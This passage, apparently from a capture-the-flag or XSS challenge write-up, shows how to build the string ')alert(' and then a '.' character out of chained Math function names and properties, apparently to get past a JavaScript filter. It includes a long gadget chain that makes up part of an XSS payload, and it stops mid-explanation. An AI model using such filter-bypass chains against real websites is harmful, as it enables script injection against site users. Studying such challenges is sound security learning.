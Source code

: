 ![img1](./imgs/8.png)

Now we need to shift the first element and push it to get `)alert(`

Math.random.name.localeCompare.name.length.toString,Math.log2,Math.exp,Math.abs.name.constructor.fromCharCode,\
Math.seeds.push,Math.sqrt,Math.expm1,Math.random.name.localeCompare.name.length.toString,Math.log2,Math.exp,Math.ceil,\
Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.seeds.shift,Math.floor,Math.seeds.shift,Math.floor,Math.seeds.shift,\
Math.floor,Math.seeds.shift,Math.floor,Math.seeds.shift,Math.floor,Math.random.name.anchor.name.at,Math.seeds.push,Math.acos,\
Math.random.prototype.constructor.name.link.name.at,Math.seeds.push,Math.E.constructor.name.at,Math.seeds.push,Math.E.constructor.name.at,\
Math.seeds.push,Math.cbrt,Math.log2,Math.trunc.name.at,Math.seeds.push,Math.seeds.shift,Math.seeds.push,Math.seeds.toString,\
Math.random.name.toString,Math.seeds.toString,Math.random.name.toString,Math.seeds.join

The new problem occurs when we have to create the `.` character, we will again rely on `String.fromCharCode`, now we need to get the value 46 from 15 somehow… Since $e$ is close enough to $2$ we can play with $e^x$ and $log_2(x)$. We’ve found the exact value of $x$ after different tests:

$$
log_2(e^{32}) \approx 46
$$

But how do we get 32 from 15? The easiest way to get 32 is by calling `Math.clz32(0)`, but how do we get the approximate value of 0? This is a trigonometric function.

